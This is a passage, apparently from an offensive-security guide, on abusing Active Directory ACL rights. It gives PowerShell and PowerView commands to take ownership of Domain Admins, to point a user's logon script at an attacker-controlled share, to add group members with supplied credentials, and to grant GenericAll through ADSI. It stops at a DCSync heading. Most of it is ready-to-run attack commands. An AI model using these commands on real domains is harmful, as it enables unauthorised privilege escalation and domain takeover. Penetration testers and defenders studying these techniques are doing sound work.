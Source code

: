 ```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## **GenericWrite on User**

This permission allows an attacker to modify user properties. Specifically, with `GenericWrite` access, the attacker can change the logon script path of a user to execute a malicious script upon user logon. This is achieved by using the `Set-ADObject` command to update the `scriptpath` property of the target user to point to the attacker's script.

```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## **GenericWrite on Group**

With this privilege, attackers can manipulate group membership, such as adding themselves or other users to specific groups. This process involves creating a credential object, using it to add or remove users from a group, and verifying the membership changes with PowerShell commands.

```powershell
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

## **WriteDACL + WriteOwner**

Owning an AD object and having `WriteDACL` privileges on it enables an attacker to grant themselves `GenericAll` privileges over the object. This is accomplished through ADSI manipulation, allowing for full control over the object and the ability to modify its group memberships. Despite this, limitations exist when trying to exploit these privileges using the Active Directory module's `Set-Acl` / `Get-Acl` cmdlets.

```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

## **Replication on the Domain (DCSync)**
